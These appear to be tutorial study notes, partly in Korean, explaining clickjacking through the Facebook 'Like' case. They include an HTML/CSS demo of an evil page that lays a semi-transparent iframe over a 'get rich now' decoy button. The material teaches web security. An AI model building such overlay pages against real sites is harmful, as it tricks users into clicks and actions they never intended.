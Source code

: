 The clickjacking attack
====

##### 악의적 페이지
- 사용자 대신 특정 사이트 클릭

##### 다수 사이트 피해 당한 후 강화
- Twitter
- Facebook
- Paypal
- 기타 등등

### 개념

##### Facebook 사례
1. A visitor is lured to the evil page. It doesn't matter how.
2. The page has a harmless-looking link on it (like "get rich now" or "click here, very funny").
3. Over that link the evil page positions a transparent `<iframe>` with `src` from facebook.com, in such a way that the "Like" button is right above that link. Usually that's done with `z-index`.
4. In attempting to click the link, the visitor in fact clicks the button.

### The demo
Here's how the evil page looks. To make things clear, the `<iframe>` is half-transparent (in real evil pages it's fully transparent):
```html
<style>
iframe { /* iframe from the victim site */
  width: 400px;
  height: 100px;
  position: absolute;
  top:0; left:-20px;
  opacity: 0.5; /* in real opacity:0 */
  z-index: 1;
}
</style>

<div>Click to get rich now:</div>

<!-- The url from the victim site -->
<iframe src="/clickjacking/facebook.html"></iframe>

<button>Click here!</button>

<div>...And you're cool (I'm a cool hacker actually)!</div>
```

##### 결과

![the-demo-1](../../images/03/01/03/the-demo-1.png)
